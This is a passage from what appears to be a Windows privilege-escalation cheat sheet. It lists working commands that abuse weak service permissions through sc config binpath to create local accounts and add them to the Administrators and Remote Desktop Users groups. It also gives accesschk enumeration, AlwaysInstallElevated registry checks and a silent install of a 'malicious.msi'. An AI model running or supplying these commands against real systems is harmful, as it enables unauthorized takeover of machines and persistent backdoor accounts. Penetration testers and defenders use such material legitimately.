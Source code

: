 or create a local admin with:
```bat
sc config "Vulnerable Service" binpath="net user eviladmin P4ssw0rd@ /add
sc config "Vulnerable Service" binpath="net localgroup Administrators eviladmin /add"
```

#### Approach 2 - Check services a given user can edit
```bat
accesschk.exe -uwcqv "testuser" *
```

```bat
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv * /accepteula

sc config upnphost binpath= "net user /add amxuser1 amxpass1234"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net stop upnphost
net start upnphost
net start upnphost

sc config upnphost binpath= "net localgroup administrators amxuser1 /add"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net stop upnphost
net start upnphost
net start upnphost

sc config upnphost binpath= "net localgroup \"Remote Desktop Users\" amxuser1 /add"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net stop upnphost
net start upnphost
net start upnphost
```

### AlwaysInstallElevated
- `exploit/windows/local/always_install_elevated`

```bat
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001
```
```bat
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Installing MSI:
```bat
msiexec /quiet /qn /i malicious.msi
```
